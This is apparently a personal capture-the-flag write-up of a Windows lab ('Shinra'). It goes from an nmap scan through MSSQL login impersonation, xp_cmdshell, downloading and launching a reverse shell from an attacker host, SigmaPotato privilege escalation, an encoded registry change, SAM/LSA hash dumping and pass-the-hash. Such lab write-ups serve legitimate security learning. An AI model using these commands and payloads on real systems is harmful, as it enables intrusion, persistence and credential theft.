


As usual I will scan for possible open services on the TCP stack:

```bash
PORT      STATE SERVICE       REASON         VERSION
80/tcp    open  http          syn-ack ttl 64 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
1433/tcp  open  ms-sql-s      syn-ack ttl 64 Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2026-03-25T15:30:36+00:00; 0s from scanner time.
| ms-sql-info: 
|   172.16.12.81:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   172.16.12.81:1433: 
|     Target_Name: SHINRA-LAB
|     NetBIOS_Domain_Name: SHINRA-LAB
|     NetBIOS_Computer_Name: SQL02
|     DNS_Domain_Name: shinra-lab.vl
|     DNS_Computer_Name: sql02.shinra-lab.vl
|     DNS_Tree_Name: shinra-lab.vl
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-25T03:46:30
| Not valid after:  2056-03-25T03:46:30
| MD5:     93f4 ce56 ceaf 1a41 05b8 b962 37fe 33a5
| SHA-1:   e62a a38b 73d1 63cb 7a28 b07a 7d35 cd27 068f cbb6
| SHA-256: ba17 551e 761c 6217 6ff0 411d 15ad 8c4a 9115 abff b957 77bb 3f5d cdd8 5f14 1c6e
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQK9j949s93bBH6wuVEPGT+TANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwMzI1MDM0NjMwWhgPMjA1NjAzMjUwMzQ2MzBaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMDVFyEb
| U/tvjPlinJZFXGYa355tqBmIbaEm92FjWO8wPkVWJqLsVQTGXPnCu4X1pLaincYn
| fF9p9pji6uu4ksC12NcmxDCaIwkkcqmUF6CNSa/YrPtwDG9mJQq6l9LhIQ0gggLJ
| UmsGJtcYpqrH6zful/z3/lbh1klx6SZ/ShoGNo2SnAC7B1HNVGsg1TR7dng5Y/Xx
| h5kGd3/zTgDchkCBxVfBKKO5PA2Rwpv3+JcsQHSTGaSEG1R84sRf8wg3IxX5CO3n
| cffuF0EcjKBmWUtpKYxwAfK1dLT2CsB4OFZuG77XvWtfkdETi+sub1rkQyfCAUAl
| nUU1seljLXua/70CAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAV+/RUCG4ucI1DbK0
| zB6u3tFt6UG+BNxeMtZRav36WDwMR92JDJ8GFhDOUcchhRVUxXSfdQSjG016+GYT
| jMPbSCJ1Y8zrnvFqYX3Cpn8sOrItDTnoEO3w7M7/E5bpGcel6Pcq2l3o/A7fyoBI
| 1/XkI9OknVOq26ca4QEszNvXDgoJjQEOZU9j1Dcb6XyBXOoqLK6XY4SZzpGb9R0p
| dDjR7TLp4zsQJrT0idd39Zpqda00bNxzG02GyL5GBwIZkOuPvrEibwzbaB9QPygk
| SrNq7iKWEktTUk7YyDEkPMf0eBOe7CFJENH8Iwz2x9XQZQ5gCEUsL2KbyL1G+/IS
| /Tv/sg==
|_-----END CERTIFICATE-----
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SHINRA-LAB
|   NetBIOS_Domain_Name: SHINRA-LAB
|   NetBIOS_Computer_Name: SQL02
|   DNS_Domain_Name: shinra-lab.vl
|   DNS_Computer_Name: sql02.shinra-lab.vl
|   DNS_Tree_Name: shinra-lab.vl
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-25T15:30:31+00:00
|_ssl-date: 2026-03-25T15:30:36+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=sql02.shinra-lab.vl
| Issuer: commonName=sql02.shinra-lab.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-05T07:10:32
| Not valid after:  2026-05-07T07:10:32
| MD5:     f145 570d 2014 09e2 bd2d 8015 ee52 a2ba
| SHA-1:   b6fe b5b9 030d a614 a7ed d361 699a dc6e f8f7 fa9a
| SHA-256: f03f beb9 bc11 488e 8941 27ef be57 2e2c 02b4 825c 2d77 c537 9791 2a2b c488 2bf3
| -----BEGIN CERTIFICATE-----
| MIIC6jCCAdKgAwIBAgIQdmiZIvDz24JPXOJ568uUUjANBgkqhkiG9w0BAQsFADAe
| MRwwGgYDVQQDExNzcWwwMi5zaGlucmEtbGFiLnZsMB4XDTI1MTEwNTA3MTAzMloX
| DTI2MDUwNzA3MTAzMlowHjEcMBoGA1UEAxMTc3FsMDIuc2hpbnJhLWxhYi52bDCC
| ASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBANeLfrSscGerlw0TLK7kcIbc
| u5N/ZWB0F+tH01rBmdoX83kGIFo3OexFdE/pxBSqGd/kTOzkX5T7u2/m5sk2G0+8
| W/Kg1LZk0E8rsM/aUS3MszQPriNSiL+J9r4x9XnG523UtlmM2Ss3HUsBaw/7nUlQ
| 7C1DErhzwJ1NOCPJUfS/nlx2hsvP+I/CNbMIyZdf0xJEF2UKEjzIW57n+Qpxa5zB
| m8tE/wjAxa9RO9KY7bNUOzmVgjg6eAgWzXGNL6Ja51knXMJ+vHUALvJ0FY7LR7bh
| BhCtFaPuBgBkFpi/qgmE1F61IDeCBO7KH18HRAw8y+x3OotDMvF5PGyQRxYVnhUC
| AwEAAaMkMCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqG
| SIb3DQEBCwUAA4IBAQCQv2KsZo6/9YPEozkJ9Ggx+Z3OqsGkx5QU9rJHRWiWPZpX
| J9QGeEl96irO04Bh09lXmsjVjIPvLrX1ktd7+by4Q6JZctCg54hPReTqTOAiTfIZ
| q/w2EFssuIADBSe4zPsEZ/g4XjtnDMLQUP5/PPJYfoFzyEu/lg2E58jIFLXKG1Hm
| epskTFc3Cj479HyVDctiQ3oJaA5eOScEng8bIr4XijIA0pSG3MM1pzEPcBl2WDp4
| 1aNVhNtVADS/WXW+Vp0L4nRkuy21Brvfj339h0s9BUlR8d4x1y5hlmyoayVRrsxI
| vkzChb86esIfcvn81DQaYz7unU8SxQLHvvYFVr2o
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49743/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/25%OT=80%CT=%CU=%PV=Y%G=N%TM=69C3FF9D%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=108%TI=I%CI=I%TS=A)
SEQ(SP=109%GCD=1%ISR=109%TI=I%CI=I%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=N)

```

# MSSQL

Now here I has to ask AI and apparently the Impacketer failed to enumerate for impersonations but I can impersonate whatever  I want:

```bash
QL >"172.16.12.81" (external  guest@master)> SELECT name, is_srvrolemember('sysadmin') as is_admin FROM sys.server_principals WHERE type_desc = 'SQL_LOGIN' OR type_desc = 'WINDOWS_LOGIN';
name                                 is_admin   
----------------------------------   --------   
sa                                          0   
##MS_PolicyEventProcessingLogin##           0   
##MS_PolicyTsqlExecutionLogin##             0   
SQL02\Administrator                         0   
NT SERVICE\SQLWriter                        0   
NT SERVICE\Winmgmt                          0   
NT Service\MSSQL$SQLEXPRESS                 0   
NT AUTHORITY\SYSTEM                         0   
NT SERVICE\SQLTELEMETRY$SQLEXPRESS          0   
external                                    0   
SQL >"172.16.12.81" (external  guest@master)> SELECT name, is_srvrolemember('sysadmin') as is_admin FROM sys.server_principals WHERE type_desc = 'SQL_LOGIN' OR type_desc = 'WINDOWS_LOGIN';
name                                 is_admin   
----------------------------------   --------   
sa                                          0   
##MS_PolicyEventProcessingLogin##           0   
##MS_PolicyTsqlExecutionLogin##             0   
SQL02\Administrator                         0   
NT SERVICE\SQLWriter                        0   
NT SERVICE\Winmgmt                          0   
NT Service\MSSQL$SQLEXPRESS                 0   
NT AUTHORITY\SYSTEM                         0   
NT SERVICE\SQLTELEMETRY$SQLEXPRESS          0   
external                                    0   
SQL >"172.16.12.81" (external  guest@master)> EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER('sysadmin');
    
-   
1   
SQL >"172.16.12.81" (external  guest@master)> 

```

And now I have the keys to the DB:

```bash
SQL >"172.16.12.81" (external  guest@master)> exec_as_
exec_as_login  exec_as_user   
SQL >"172.16.12.81" (external  guest@master)> exec_as_login sa
SQL >"172.16.12.81" (sa  dbo@master)> enable_xp_cmdshell
INFO(SQL02\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(SQL02\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL >"172.16.12.81" (sa  dbo@master)> xp_cmdshell "whoami"
output                        
---------------------------   
nt service\mssql$sqlexpress   
NULL                          
SQL >"172.16.12.81" (sa  dbo@master)> 


```

But damn I need to bypass the AV again:



First I uploaded a custom revshell to bypass the defender:

```bash
QL >"172.16.12.81" (sa  dbo@master)> xp_cmdshell "powershell.exe -C IWR -Uri http://172.16.12.101:8888/RevShell.exe -outfile C:\Temp\RevShell.exe"
output   
------   
NULL     
SQL >"172.16.12.81" (sa  dbo@master)> xp_cmdshell "powershell.exe -C ls C:\Temp"
output                                                                             
--------------------------------------------------------------------------------   
NULL                                                                               
NULL                                                                               
    Directory: C:\Temp                                                             
NULL                                                                               
NULL                                                                               
Mode                LastWriteTime         Length Name                                                                     
----                -------------         ------ ----                                                                     
-a----        3/26/2026   2:15 PM          12288 RevShell.exe                                                             
NULL                                                                               
NULL                                                                               
NULL                                                                               
SQL >"172.16.12.81" (sa  dbo@master)> 

```

Now I should be able to fetch batch the rce on the SQL01(took the first machine I had a connection to):



```bash
SQL >"172.16.12.81" (sa  dbo@master)> xp_cmdshell "C:\Temp\RevShell.exe 172.16.12.101 4444 powershell"


```

And now I should have all the users I need?

```bash
S C:\temp> ./Sigma.exe "/c net user yovecio Coglione1! /add && net localgroup Administrators yovecio /add"
./Sigma.exe "/c net user yovecio Coglione1! /add && net localgroup Administrators yovecio /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 900 | Token: 0x808 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1068
[+] Current Command Length: 81 characters

[-] Failed to create process! Win32Error: 2 ('ERROR_FILE_NOT_FOUND')
 o  (Hint: this likely means the executable specified is either mistyped or needs an absolute path)

PS C:\temp> wget http://172.16.12.101:8888/sigma.exe -outfile sigma.exe 
wget http://172.16.12.101:8888/sigma.exe -outfile sigma.exe 
PS C:\temp> ./Sigma.exe "cmd /c net user yovecio Coglione1! /add && net localgroup Administrators yovecio /add"
./Sigma.exe "cmd /c net user yovecio Coglione1! /add && net localgroup Administrators yovecio /add"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 900 | Token: 0x808 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 1008
[+] Current Command Length: 85 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 1600

[+] Process Output:
The command completed successfully.

The command completed successfully.


PS C:\temp> 


```

But I had also to didable the local user token filterization:

```bash
PS C:\temp> ./Sigma.exe "powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand TgBlAHcALQBJAHQAZQBtAFAAcgBvAHAAZQByAHQAeQAgAC0AUABhAHQAaAAgACcASABLAEwATQA6AFwAUwBPAEYAVABXAEEAUgBFAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUABvAGwAaQBjAGkAZQBzAFwAUwB5AHMAdABlAG0AJwAgAC0ATgBhAG0AZQAgACcATABvAGMAYQBsAEEAYwBjAG8AdQBuAHQAVABvAGsAZQBuAEYAaQBsAHQAZQByAFAAbwBsAGkAYwB5ACcAIAAtAFYAYQBsAHUAZQAgADEAIAAtAFAAcgBvAHAAZQByAHQAeQBUAHkAcABlACAARABXAG8AcgBkACAALQBGAG8AcgBjAGUA"
./Sigma.exe "powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand TgBlAHcALQBJAHQAZQBtAFAAcgBvAHAAZQByAHQAeQAgAC0AUABhAHQAaAAgACcASABLAEwATQA6AFwAUwBPAEYAVABXAEEAUgBFAFwATQBpAGMAcgBvAHMAbwBmAHQAXABXAGkAbgBkAG8AdwBzAFwAQwB1AHIAcgBlAG4AdABWAGUAcgBzAGkAbwBuAFwAUABvAGwAaQBjAGkAZQBzAFwAUwB5AHMAdABlAG0AJwAgAC0ATgBhAG0AZQAgACcATABvAGMAYQBsAEEAYwBjAG8AdQBuAHQAVABvAGsAZQBuAEYAaQBsAHQAZQByAFAAbwBsAGkAYwB5ACcAIAAtAFYAYQBsAHUAZQAgADEAIAAtAFAAcgBvAHAAZQByAHQAeQBUAHkAcABlACAARABXAG8AcgBkACAALQBGAG8AcgBjAGUA"
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 900 | Token: 0x808 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 768
[+] Current Command Length: 498 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 5296

[+] Process Output:


LocalAccountTokenFilterPolicy : 1
PSPath                        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Curre
                                ntVersion\Policies\System
PSParentPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Curre
                                ntVersion\Policies
PSChildName                   : System
PSDrive                       : HKLM
PSProvider                    : Microsoft.PowerShell.Core\Registry


PS C:\temp> 


```

And now I have a security path with some creds:

```bash
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ netexec smb 172.16.12.81 -u yovecio -p 'Coglione1!' --local-auth --sam --lsa --dpapi
SMB         172.16.12.81    445    SQL02            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SQL02) (domain:SQL02) (signing:False) (SMBv1:None)
SMB         172.16.12.81    445    SQL02            [+] SQL02\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.12.81    445    SQL02            [*] Dumping SAM hashes
SMB         172.16.12.81    445    SQL02            Administrator:500:aad3b435b51404eeaad3b435b51404ee:d0b51fa41536d59416d4d029240d3f15:::
SMB         172.16.12.81    445    SQL02            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.12.81    445    SQL02            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.12.81    445    SQL02            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:481f20372fa7af2eceb5ea4bba2a3a04:::
SMB         172.16.12.81    445    SQL02            yovecio:1001:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
SMB         172.16.12.81    445    SQL02            [+] Added 5 SAM hashes to the database
SMB         172.16.12.81    445    SQL02            [+] Dumping LSA secrets
SMB         172.16.12.81    445    SQL02            SHINRA-LAB.VL/Administrator:$DCC2$10240#Administrator#92d81e2aeb44d1a59f7d45d42daa2775: (2025-06-09 07:34:06)
SMB         172.16.12.81    445    SQL02            SHINRA-LAB\SQL02$:aes256-cts-hmac-sha1-96:91bccfb292f85cd3912858dbb5ae70e63b3144a17b3c82d8b34668a589c7eebf
SMB         172.16.12.81    445    SQL02            SHINRA-LAB\SQL02$:aes128-cts-hmac-sha1-96:ab5a6dd35d8faeb2edf2e2fd7dfb003c
SMB         172.16.12.81    445    SQL02            SHINRA-LAB\SQL02$:des-cbc-md5:b04ffbc410fd836d
SMB         172.16.12.81    445    SQL02            SHINRA-LAB\SQL02$:plain_password_hex:9da51826d415c2fa71a7263a25f5e7af5d59e119236441b66cb7915f25716541157ec17c099f396f4ccf5c7635de8681058a08e49b3bda3c5d8798f6a0b9d28497202c4f8b2b8704b55a61c515d63795803028d221ae0fbb77e22b7a8a7d042eb515d0f4f07c3e7dcb458828bb0f6506344b9083c218453a087026133df7cdab97809e5ead6d282eac39e8849e61c11a80a9a2fc5b265086c547b4db6deeca26d0a56399cb69623bd76ca68422e060697dec08a442aee55706725abe70e9586ac42a838830d0df6e050e3fce17e1b21f5671638fed5404032ef5ed69c8bc2b5439094b34decb8d0e1462c81d89108d5c
SMB         172.16.12.81    445    SQL02            SHINRA-LAB\SQL02$:aad3b435b51404eeaad3b435b51404ee:b05a2bbbf4029935370159a5f6dacb6d:::
SMB         172.16.12.81    445    SQL02            dpapi_machinekey:0x7f28c8f10646c742c2ff1eea970a0d1391c9caa5
dpapi_userkey:0x5819624fd32db5fed82e3cd678ca98ba403d8ca4
SMB         172.16.12.81    445    SQL02            [+] Dumped 7 LSA secrets to /home/user/.nxc/logs/lsa/172.16.12.81_None_2026-03-26_154257.secrets and /home/user/.nxc/logs/lsa/172.16.12.81_None_2026-03-26_154257.cached
SMB         172.16.12.81    445    SQL02            [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.12.81    445    SQL02            [+] Got 9 decrypted masterkeys. Looting secrets...
                                                                                                                   
```

# Post Exploitation

Now I can pass the hash and grab another flag:

```bash
$ evil-winrm-py -i 172.16.12.81 -u Administrator -H d0b51fa41536d59416d4d029240d3f15
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.6.0

[*] Connecting to '172.16.12.81:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents> cd ..
evil-winrm-py PS C:\Users\Administrator> cd Desktop
evil-winrm-py PS C:\Users\Administrator\Desktop> cat flag.txt
SHINRA{b0caef2d37a410d6129014b91e74aefc}
evil-winrm-py PS C:\Users\Administrator\Desktop>

```

Now it seems there is a third domain? WTF:

```bash
vil-winrm-py PS C:\Temp> ping shinra-lab.vl

Pinging shinra-lab.vl [172.16.13.105] with 32 bytes of data:
Reply from 172.16.13.105: bytes=32 time=2ms TTL=128
Reply from 172.16.13.105: bytes=32 time<1ms TTL=128
^C
[-] Caught Ctrl+C. Stopping current command...
evil-winrm-py PS C:\Temp>


└─$ netexec smb 172.16.13.105                                                                          
SMB         172.16.13.105   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:shinra-lab.vl) (signing:True) (SMBv1:None) (Null Auth:True)

```

Now I can move on to the last part of this challenge.